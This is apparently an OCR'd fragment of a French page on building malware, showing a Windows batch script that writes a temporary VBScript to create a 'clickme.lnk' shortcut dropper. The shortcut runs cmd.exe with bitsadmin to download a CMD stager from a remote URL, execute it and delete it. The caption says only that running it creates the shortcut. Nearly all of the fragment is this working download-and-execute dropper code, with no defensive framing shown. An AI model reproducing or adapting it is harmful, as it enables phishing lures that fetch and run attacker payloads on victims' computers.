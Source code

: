 ```
set PATH_STAGER_CMD=%PATH_PUBLIC_DIR%%STAGER_CMD%

rem Use a temporary VBScript to create the LNK dropper.
rem The LNK dropper will contain code to download, execute and delete the CMD stager.
echo Set oWS = WScript.CreateObject("WScript.Shell") > %PATH_DROPPER_LNK_CREATE%
echo sLinkFile = "%PATH_DROPPER_LNK%" >> %PATH_DROPPER_LNK_CREATE%
echo Set oLink = oWS.CreateShortcut(sLinkFile) >> %PATH_DROPPER_LNK_CREATE%
echo oLink.TargetPath = "C:\Windows\System32\cmd.exe" >> %PATH_DROPPER_LNK_CREATE%
echo oLink.Arguments = "/c bitsadmin /transfer 1 /priority FOREGROUND %URL_STAGER_CMD% %PATH_STAGER_CMD% & call %PATH_STAGER_CMD% & del %PATH_STAGER_CMD%" >> %PATH_DROPPER_LNK_CREATE%
echo oLink.Save >> %PATH_DROPPER_LNK_CREATE%
cscript %PATH_DROPPER_LNK_CREATE%
del %PATH_DROPPER_LNK_CREATE%
```

![4e17aa697e180fd82a335de882ea2a79.png](/img/9b1f0c3af7c343a6b3ca5df5e1c4a2e5.png)

Lorsque exécuté, crée `clickme.lnk`
